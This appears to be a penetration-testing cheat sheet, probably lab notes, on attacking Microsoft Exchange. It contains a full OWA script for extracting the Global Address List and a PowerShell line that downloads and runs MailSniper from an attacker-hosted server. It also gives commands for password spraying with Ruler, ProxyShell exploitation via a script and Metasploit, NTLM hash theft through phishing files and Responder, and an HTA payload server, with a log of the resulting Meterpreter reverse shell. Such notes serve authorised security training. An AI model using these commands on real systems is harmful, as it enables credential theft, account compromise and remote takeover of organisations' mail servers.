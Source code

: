 # Exchange

To enumerate the version of Microsoft Exchange

```bash
curl https://10.129.132.217/ecp/Current/exporttool/microsoft.exchange.ediscovery.exporttool.application -k | xmllint --format - | grep version 
```

### <mark style="color:yellow;">Exporting username list</mark>

If we already have access to a computer within the domain or an email. [https://github.com/pigeonburger/global-address-list-owa](https://github.com/pigeonburger/global-address-list-owa)

<details>

<summary>Modified script to bypass SSL errors</summary>

```
# Extraction of the Global Address List (GAL) on Exchange >=2013 servers via Outlook Web Access (OWA) 
# By Pigeonburger, June 2021
# https://github.com/pigeonburger

# module import heehoo
import requests, json, argparse
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# argparser hhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhh
parser = argparse.ArgumentParser(description="Extract the Global Address List (GAL) on Exchange 2013 servers via Outlook Web Access (OWA)")
parser.add_argument("-i", "--host", dest="hostname",
                  help="Hostname for the Exchange Server", metavar="HOSTNAME", type=str, required=True)
parser.add_argument("-u", "--username", dest="username",
                  help="A username to log in", metavar="USERNAME", type=str, required=True)
parser.add_argument("-p", "--password", dest="password",
                  help="A password to log in", metavar="PASSWORD", type=str, required=True)
parser.add_argument("-o", "--output-file", dest="output",
                  help="Specify file to output emails to (default is global_address_list.txt)", metavar="OUTPUT FILE", type=str, default="global_address_list.txt")

args = parser.parse_args()

url = args.hostname
USERNAME = args.username
PASSWORD = args.password
OUTPUT = args.output


# Start the session
s = requests.Session()
print("Connecting to %s/owa" % url)


# Get OWA landing page
# Add https:// scheme if not already added in the --host arg
try:
    s.get(url+"/owa", verify=False)
    URL = url
except requests.exceptions.MissingSchema:
    s.get("https://"+url+"/owa", verify=False)
    URL = "https://"+url


# Other URLs we need later
AUTH_URL = URL+"/owa/auth.owa"
PEOPLE_FILTERS_URL = URL + "/owa/service.svc?action=GetPeopleFilters"
FIND_PEOPLE_URL = URL + "/owa/service.svc?action=FindPeople"


# Attempt a login to OWA
login_data={"username":USERNAME, "password":PASSWORD, 'destination': URL, 'flags': '4', 'forcedownlevel': '0'}
r = s.post(AUTH_URL, data=login_data, headers={'user-agent': "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0"}, verify=False)


# The Canary is a unique ID thing provided upon a successful login that's also required in the header for the next few requests to be successful.
# Even upon an incorrect login, OWA still gives a 200 status, so we can also check if the login was successful by seeing if this cookie was set or not.
try:
    session_canary = s.cookies['X-OWA-CANARY']
except:
    exit("\nInvalid Login Details. Login Failed.")
print("\nLogin Successful!\nCanary key:", session_canary)


# Returns an object containing the IDs of all accessible address lists, so we can specify one in the FindPeople request
r = s.post(PEOPLE_FILTERS_URL, headers={'Content-type': 'application/json', 'X-OWA-CANARY': session_canary, 'Action': 'GetPeopleFilters'}, data={}, verify=False).json()


# Find the Global Address List id
for i in r:
    if i['DisplayName'] == "Default Global Address List":
        AddressListId = i['FolderId']['Id']
        print("Global List Address ID:", AddressListId)
        break


# Set to None to return all emails in the list (this is the search term for the FindPeople request)
query = None


# Set the max results for the FindPeople request.
max_results = 99999


# POST data for the FindPeople request
peopledata = {
    "__type": "FindPeopleJsonRequest:#Exchange",
    "Header": {
        "__type": "JsonRequestHeaders:#Exchange",
        "RequestServerVersion": "Exchange2013",
        "TimeZoneContext": {
            "__type": "TimeZoneContext:#Exchange",
            "TimeZoneDefinition": {
                "__type": "TimeZoneDefinitionType:#Exchange",
                "Id": "AUS Eastern Standard Time"
            }
        }
    },
    "Body": {
        "__type": "FindPeopleRequest:#Exchange",
        "IndexedPageItemView": {
            "__type": "IndexedPageView:#Exchange",
            "BasePoint": "Beginning",
            "Offset": 0,
            "MaxEntriesReturned": max_results
        },
        "QueryString": query,
        "ParentFolderId": {
            "__type": "TargetFolderId:#Exchange",
            "BaseFolderId": {
                "__type": "AddressListId:#Exchange",
                "Id": AddressListId
            }
        },
        "PersonaShape": {
            "__type": "PersonaResponseShape:#Exchange",
            "BaseShape": "Default"
        },
        "ShouldResolveOneOffEmailAddress": False
    }
}


# Make da request.
r = s.post(FIND_PEOPLE_URL, headers={'Content-type': 'application/json', 'X-OWA-CANARY': session_canary, 'Action': 'FindPeople'}, data=json.dumps(peopledata), verify=False).json()


# Parse out the emails, print them and append them to a file.
userlist = r['Body']['ResultSet']

with open(OUTPUT, 'a+') as outputfile:
    for user in userlist:
        email = user['EmailAddresses'][0]['EmailAddress']
        outputfile.write(email+"\n")
        print(email)

print("\nFetched %s emails" % str(len(userlist)))
print("Emails written to", OUTPUT)
```

</details>

```bash
python3 emailextract.py -i exch01.zencorp.local -u zen@zencorp.ocal -p 'pass@123'
```

#### Or use windows

PS C:\Tools> IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.228:8000/MailSniper.ps1') PS C:\Tools> Get-GlobalAddressList -ExchHostname exch01.zencorp.local -Username zen -Password 'pass@123' -OutFile globaladdresslist.txt

### <mark style="color:yellow;">Password Spray</mark>

Use Ruler for password Spray

```bash
./ruler-linux64 --domain zencorp.local --insecure brute --users global_address_list.txt --passwords passwords.txt --verbose -a 4
```

### <mark style="color:yellow;">ProxyShell</mark>

```bash
proxyshell.py -u https://10.129.230.42/ -e Administrator@zencorp.local 
```

Or use metasploit

```bash
use exploit/windows/http/exchange_proxyshell_rce
```

### <mark style="color:yellow;">Phishing Attacks</mark>

Generate a htm file with ntlm\_theft, create htm file, attach in email and capture in Responder

```bash
# Create html file
python3 ntlm_theft.py -g htm -s 10.10.14.80 -f students

# Responder
sudo responder -I tun0
```

#### Arbitrary File Execution

With [https://www.shellterproject.com/](https://www.shellterproject.com/) its possible to take a legit executable and inject a malicious code to get a reverse shell.

#### Create a HTA file

```bash
# It will create and host the .hta file
msfconsole -x "use exploit/windows/misc/hta_server; set LHOST 10.10.14.207; set LPORT 8443; set SRVHOST 10.10.14.207; run -j"

# Send the link and once clicked
[*] Meterpreter session 1 opened (10.10.14.207:8443 -> 10.129.231.81:62367) at 2024-08-13 17:52:01 -0400
```
